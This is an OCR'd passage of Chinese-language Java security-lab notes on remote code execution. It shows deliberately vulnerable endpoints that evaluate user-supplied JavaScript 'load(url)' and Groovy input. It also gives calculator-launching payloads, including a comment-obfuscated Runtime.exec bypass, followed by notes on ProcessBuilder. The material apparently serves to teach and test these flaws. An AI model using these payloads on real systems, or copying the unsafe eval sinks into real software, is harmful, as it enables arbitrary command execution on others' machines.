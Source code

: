> 在 Java 8 之后 ScriptEngineManager 的 eval 函数就没有了  
> windows: var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("calc")};  
> Payload 绕过：var a = mainOutput(); function mainOutput() { var x=java.lang.\\/*\*\**\\/Runtime.getRuntime().exec("calc");}

```bash
public String loadJsExec(String url, Model model) {
    try {
        ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");

        // Bindings：用来存放数据的容器
        Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);
        String payload = String.format("load('%s')", url);
        engine.eval(payload, bindings);
        model.addAttribute("results", "远程脚本: " + HtmlUtils.htmlEscape(url) + " 执行成功!");
    } catch (Exception e) {
        e.printStackTrace();
        model.addAttribute("results", e.toString());
    }
    return "basevul/rce/loadjs";
}
```

> 该代码首先通过 ScriptEngineManager 类获取一个支持 JavaScript 的 ScriptEngine 对象。然后，它创建一个 Bindings 对象，用于存放数据。接着，它构造一个包含远程脚本 URL 的字符串，并将该字符串传递给 eval() 方法执行。最后，它将执行结果存储在 model 对象中。

## Groovy

代码执行

-   windows: "calc".execute()
-   macos: "open -a Calculator".execute()
    
    ```bash
    public String groovyExec(String cmd, Model model) {
     GroovyShell shell = new GroovyShell();
     try {
         shell.evaluate(cmd);
         model.addAttribute("results", "执行成功！！！");
     } catch (Exception e) {
         e.printStackTrace();
         model.addAttribute("results", e.toString());
     }
     return "basevul/rce/groovy";
    }
    ```
    
    \## ProcessBuilder
    
    > Process 类是一个抽象类（所有的方法均是抽象的），封装了一个进程（即一个执行程序）。  
    > Process 类提供了执行从进程输入、执行输出到进程、等待进程完成、检查进程的退出状态以及销毁（杀掉）进程的方法。  
    > ProcessBuilder.start() 和 Runtime.exec 方法创建一个本机进程，并返回 Process 子类的一个实例，该实例可用来控制进程并获取相关信息。  
    > 创建的子进程没有自己的终端或控制台。它的所有标准 io（即 stdin，stdout，stderr）操作都将通过三个流 (getOutputStream()，getInputStream()，getErrorStream()) 重定向到父进程，通过流的形式进行读取。
    